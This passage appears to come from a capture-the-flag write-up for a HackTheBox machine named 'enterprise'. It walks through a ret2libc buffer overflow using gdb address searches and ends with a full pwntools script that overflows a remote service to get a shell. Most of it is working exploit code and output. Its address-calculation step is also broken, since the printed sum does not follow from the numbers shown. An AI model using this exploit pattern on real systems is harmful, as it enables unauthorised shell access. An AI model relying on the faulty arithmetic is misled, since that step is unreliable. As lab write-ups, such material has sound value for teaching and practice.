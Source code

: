 I get /bin/sh address with `find` command in gdb. It's syntax is `find [/SIZE-CHAR] [/MAX-COUNT] START-ADDRESS, END-ADDRESS, EXPR1 [, EXPR2, ...]`. I'll use `find libc-address,+bytes,string`
```bash
(gdb) find 0xf7e32000,+10000000, "/bin/sh"
0xf7f70a0f
warning: Unable to access 16000 bytes of target memory at 0xf7fca797, halting search.
1 pattern found.
```
Note: If you're not able to get "/bin/sh" address, you can add a breakpoint in main, run the binary then try to get the address.

and for this libc base the final addresses are:
```bash
system  address 
				= 0xf7e4c060
exit    address 
				= 0xf7e3faf0
/bin/sh address 
				= 0xf7f70a0f
```
You can calculate the final address like this:
```bash
$ python3 -c 'print(hex(0xf7e32000 + 0xf7e4c060))'
0xb7f74a0b
```
Buffer overflow goes: ``JUNK + SYSTEM (overwrite ret address) + EXIT (add next return address) + "/bin/sh" (arguments)``.
That junk can be just NOPS (No operations ~ ``\x90``), I'm using bunch of A's.

The exploit will still not work since /bin/sh address is `0xf7f70a0f` which contains `0x0a` byte which is newline.

I'll try finding addresses contains `sh` string:
```bash
(gdb) find 0xf7e32000,+10000000, "sh"
0xf7f6ddd5
0xf7f6e7e1
0xf7f70a14
0xf7f72582
warning: Unable to access 16000 bytes of target memory at 0xf7fc8485, halting search.
4 patterns found.
```
`0xf7f6ddd5` address works in this case after trial and error.
## Exploit
Since ASLR isn't enabled, we can do:
```python
#!/usr/bin/python3
from pwn import *

r = remote("enterprise.htb",32812)

offset  = 212
junk    = b"A" * offset
system  = p32(0xf7e4c060)
exit    = p32(0xf7e3faf0)
shell   = p32(0xf7f6ddd5)

payload = junk + system + exit + shell

r.recvuntil("Enter Bridge Access Code:")
r.sendline("picarda1")
r.recvuntil("Waiting for input:")
r.sendline("4")
r.recvuntil("Enter Security Override:")
r.sendline(payload)
r.interactive()
```